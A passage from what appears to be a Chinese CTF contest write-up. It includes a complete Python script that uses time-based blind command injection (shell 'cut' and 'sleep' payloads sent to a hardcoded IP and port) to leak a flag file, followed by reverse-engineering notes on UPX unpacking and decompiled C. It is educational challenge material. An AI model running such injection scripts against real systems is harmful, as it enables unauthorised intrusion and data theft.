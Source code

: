 ### 简单的命令执行1

核心代码只有一行 `shell_exec($_POST[cmd]);`

可以执行命令但是没有回显

那就试试延迟 sleep 函数，然后用 cut 逐位判断

完整 payload 如下：

```python
import requests
import time

s = requests.session()
flag = ''
for z in range(1, 50):
    for i in 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_!@#%|^&{}[]/-()+=,\\':
        starTime = time.time()
        url = "http://183.129.189.60:10073/?imagin=if [ `cut -c" + str(z) + "-" + str(
            z) + " /flag` != '" + i + "' ]; then echo 1 ; else sleep 3; fi"
        r = s.get(url)
        if (time.time() - starTime) > 3:
            flag += i
            print(flag)
            break
    print(z)
print('the flag is' + flag)
```

## Reverse

### RE1

IDA 的基础操作，R 键数字转字符

![](https://raw.githubusercontent.com/binLep/NEEPU-Sec-Monthly-Contest/master/2020-06/WriteUp/img/2020-06-wp-2.png)

### RE2

文件有 upx 壳，在 linux 下：

```bash
upx -d [文件名]
```

就能完成脱壳

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int pipedes[2]; // [esp+18h] [ebp-38h]
  __pid_t v5; // [esp+20h] [ebp-30h]
  int v6; // [esp+24h] [ebp-2Ch]
  char buf; // [esp+2Eh] [ebp-22h]
  unsigned int v8; // [esp+4Ch] [ebp-4h]

  v8 = __readgsdword(0x14u);
  pipe(pipedes);  // pipe 函数可用于创建一个管道，以实现进程间的通信。
                  // pipe 函数的定义如下：
                  // #include<unistd.h>
                  // int pipe(int fd[2]);
                  /* * 
                   * pipe 函数定义中的 fd 参数是一个大小为2的一个数组类型的指针
                   * 该函数成功时返回0，并将一对打开的文件描述符值填入 fd 参数指向的数组；失败时返回 -1 并设置 errno
                   * 通过pipe函数创建的这两个文件描述符 fd[0] 和 fd[1] 分别构成管道的两
                   * 往 fd[1] 写入的数据可以从 fd[0] 读出。并且 fd[1] 一端只能进行写操作
```